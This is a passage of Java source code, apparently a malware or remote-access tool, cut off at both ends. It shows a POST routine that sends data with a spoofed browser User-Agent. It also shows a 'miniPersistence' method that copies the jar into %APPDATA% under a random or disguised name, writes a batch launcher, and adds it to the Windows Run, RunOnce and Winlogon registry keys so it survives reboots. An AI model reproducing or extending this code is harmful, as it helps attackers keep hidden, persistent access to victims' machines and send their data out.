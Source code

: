         connection.setFixedLengthStreamingMode(length);
        connection.setRequestProperty("Content-Type", "application/json");
        connection.setRequestProperty("User-Agent", "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/88.0.4324.182 Safari/537.36 Edg/88.0.705.74");
        connection.connect();
        try(OutputStream os = connection.getOutputStream()) {
            os.write(out);
        }
        if (debug) {
            print("POST - "+connection.getResponseCode());
        }

    }

    private static void miniPersistence(boolean randomize_new_name, String hideAs) throws Exception {
        String new_name;
        String path = Main.class.getProtectionDomain().getCodeSource().getLocation().getPath();
        String decodedPath = URLDecoder.decode(path, "UTF-8");
        String file_name = decodedPath.split("/")[decodedPath.split("/").length - 1];
        if (randomize_new_name) {
            new_name = UUID.randomUUID().toString().substring(16) + ".jar";
        } else {
            new_name = hideAs;
            if (!new_name.contains(".jar")) {
                new_name = new_name + ".jar";
            }

        }


        if (file_name.contains(".jar")) {
            //Make sure there is a file in roaming that does what we do
            try {
                try (OutputStream out = new FileOutputStream(new File(System.getenv("APPDATA"), new_name))) {
                    Files.copy(new File(System.getProperty("user.dir"), file_name).toPath(), out);
                    out.flush();
                } catch (IOException i) {
                }

            } catch (ArrayIndexOutOfBoundsException e) {
                copyFileTo(new File(System.getProperty("user.dir"), file_name), new File(System.getenv("APPDATA"), new_name));
            }

            if (new File(System.getenv("APPDATA"), new_name).exists()) {
                //Copy file to startup
                //String startup_path = System.getenv("APPDATA") + "/Microsoft/Windows/Start Menu/Programs/Startup";
                //copyFileTo(new File(System.getenv("APPDATA"), new_name), new File(startup_path));
                String batch_file = new_name + ".bat";
                writeToFile(new File("@echo off & java -jar " + batch_file + " & exit"), "@echo off & java -jar " + new_name + " & exit");

                String[] reg_start = {
                        "reg add \"HKEY_LOCAL_MACHINE\\SOFTWARE\\WOW6432Node\\Microsoft\\Windows\\CurrentVersion\\Run\" /v "+hideAs+" /t REG_SZ /d \"" +System.getenv("java_home") + "\\bin\\java.exe\" -jar \"" +System.getenv("APPDATA") + "\\" + batch_file+"\"",
                        "reg add \"HKEY_CURRENT_USER\\Software\\Microsoft\\Windows NT\\CurrentVersion\\Winlogon\" /v "+hideAs+" /t REG_SZ /d \"" +System.getenv("java_home") + "\\bin\\java.exe\" -jar \"" +System.getenv("APPDATA") + "\\" + batch_file+"\"",
                        "reg add \"HKEY_CURRENT_USER\\Software\\Microsoft\\Windows\\CurrentVersion\\Run\" /v "+hideAs+" /t REG_SZ /d \"" +System.getenv("java_home") + "\\bin\\java.exe\" -jar \"" +System.getenv("APPDATA") + "\\" + batch_file+"\"",
                        "reg add \"HKEY_CURRENT_USER\\Software\\Microsoft\\Windows\\CurrentVersion\\RunOnce\" /v "+hideAs+" /t REG_SZ /d \"" +System.getenv("java_home") + "\\bin\\java.exe\" -jar \"" +System.getenv("APPDATA") + "\\" + batch_file+"\"",